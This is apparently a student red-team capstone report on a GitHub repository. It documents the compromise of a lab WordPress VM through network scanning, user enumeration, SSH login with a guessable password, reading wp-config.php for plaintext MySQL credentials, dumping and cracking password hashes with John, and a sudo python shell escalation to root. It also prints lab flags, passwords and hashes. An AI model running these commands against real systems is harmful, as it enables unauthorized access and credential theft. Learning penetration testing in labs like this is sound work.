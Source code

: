 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Step 1: Scan the network to identify the IP addresses of Target 1

`nmap -sP 192.168.1.1-255`

[nmap IP Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_IPs_Target1.PNG "nmap IP Scan results")

`nmap -sV 192.168.1.110`

Step 2: Document all exposed ports and services.

[nmap Port Scan results](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_nmap_Ports_Target1.PNG "nmap Port Scan results")

Due to `port 80` being open, we went directly to the website via p`ort 80` `192.168.1.110:80` and discovered that Raven Security is a WordPress Commenter, giving us the clue to run the wordpress scan. 

[WordPress Screenshot](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/wordpress_port80_raven_security.PNG")

This scan identifies the services below as potential points of entry:
- Target 1
  - `port 22` - SSH
  - `port 80` - HTTP

### Vulnerabilities

The following vulnerabilities were identified on each target:

#### CVE-1999-0013 Stolen Credentials [link](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0013 "reference")
Stolen credentials from SSH clients via ssh-agent program, allowing other local users to access remote accounts belonging to the ssh-agent user.

Guessed, weak, or default password: Access gained to user michael due to the weak or default password of “michael”.

#### CWE-521: Weak Password Requirements [link](https://cwe.mitre.org/data/definitions/521.html "reference")
The product does not require that users should have strong passwords, which makes it easier for attackers to compromise user accounts. Authentication mechanisms often rely on a memorized secret (also known as a password) to provide an assertion of identity for a user of a system. It is therefore important that this password be of sufficient complexity and impractical for an adversary to guess. The specific requirements around how complex a password needs to be depends on the type of system being protected. Selecting the correct password requirements and enforcing them through implementation are critical to the overall success of the authentication mechanism.

#### CWE-759: Use of a One-Way Hash without a Salt. [link](https://cwe.mitre.org/data/definitions/759.html "reference")
The software uses a one-way cryptographic hash against an input that should not be reversible, such as a password, but the software does not also use a salt as part of the input. This makes it easier for attackers to pre-compute the hash value using dictionary attack techniques such as rainbow tables.
It should be noted that, despite common perceptions, the use of a good salt with a hash does not sufficiently increase the effort for an attacker who is targeting an individual password, or who has a large amount of computing resources available, such as with cloud-based services or specialized, inexpensive hardware. Offline password cracking can still be effective if the hash function is not expensive to compute; many cryptographic functions are designed to be efficient and can be vulnerable to attacks using massive computing resources, even if the hash is cryptographically strong. The use of a salt only slightly increases the computing requirements for an attacker compared to other strategies such as adaptive hash functions. See CWE-916 for more details.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data (listed in chronological order):

**Exploit**
- User michael used their username as their password
- `wpscan –-url http://192.168.1.110/wordpress -eu`
- [Users Identified](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/Kali_Users_Identified.PNG "Users Identified")
- `ssh michael@192.168.1.110`
- [login as michael](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_michael.PNG "Login_Michael")

**Flag #2**
-  Flag #2 {fc3fd58dcdad9ab23faca6e9a36e581c} 
- `cd /var/www`
- `cat flag2.txt`
- [Flag 2](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag2.PNG "Flag 2")

**Flag #1**
- Flag #1 {b9bbcb33e11b80be759c4e844862482d}
- `grep -RE flag html`
- [Flag 1](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_michael_flag1.PNG "Flag 1")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
- `cat /var/www/html/wordpress/wp-config.php`
  - Password: R@v3nSecurity
  - [MySQL DB Password](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_DB_password.PNG "MySQL DB Password")

**Exploit**
- MySQL server login credentials in plain text found in wp-config.php file.
- `mysql -u root -p`
- `mysql> use wordpress;`
- `mysql> select * from wp_users;`
  - Password: R@v3nSecurity
  - [user password hashes](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_MySQL_wp_users.PNG "user password hashes")

**Flag #3**
- Flag #3 {afc01ab56b50591e7dccf93122770cd2} 
  - [Flag 3](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_mySQL_wp_posts_flags.PNG "Flag 3")

**Exploit**
- Use John to crack the passwords and login as users.
- `nano wp_hashes.txt`
  - `michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0`
  - `steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/`
- `john wp_hashes.txt`
  - Steven: pink84
- [login as steven](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_login_steven.PNG "login as steven")

**Exploit**
- Spawn Shell → python sudo privileges
- `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
- [escalated privileges](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "escalated privileges")

**Flag #4**
- Flag #4 {715dea6c055b9fe3337544932f2941ce}
  - `cd ../..`
  - `cat flag4.txt`
  - [Flag 4](https://github.com/joshblack07/UR-Cyber-Security-Capstone-3/blob/main/Resources/kali_root_python_flag4.PNG "Flag 4")

